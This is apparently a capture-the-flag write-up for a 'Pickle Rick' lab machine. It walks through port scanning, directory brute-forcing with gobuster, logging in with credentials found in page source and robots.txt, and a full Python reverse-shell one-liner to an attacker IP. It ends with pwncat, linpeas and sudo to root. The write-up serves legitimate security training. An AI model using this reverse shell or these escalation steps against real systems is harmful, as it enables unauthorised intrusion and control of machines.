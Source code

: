 # Pickle rick

- Used nmap to scan for ports on the server.
- There is apache running on port 80
- Found a username in the website source code.
```
 Username: R1ckRul3s
```
- Found a text in robots.txt
```
Wubbalubbadubdub
```
- Run gobuster to search for hidden directories and files
```
gobuster dir -u http://10.10.141.70:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,css,html,py,sh,cfg
```
- Found `login.php` and `portal.php`
- username for login.php is `R1ckRul3s` and password is `Wubbalubbadubdub`
- It opened a command panel where cat doesnt work
- Use `git diff` or `grep .` to read the files
- found the first ingredient `mr. meeseek hair`
- Found the second ingredient in the `/home/rick`: `1 jerry tear`
- Python is executable on the command panel so we will try getting a reverse shell on the server. Get a python oneline for the reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.73.202",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
``` 

Reverse shell cheat sheet link : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

- Use pwncat to get a stable reverse shell and upload linpeas.sh
- There is not password for sudo, so just do sudo bash and now we own the machine
- The third ingredient is in /root/3rd.txt
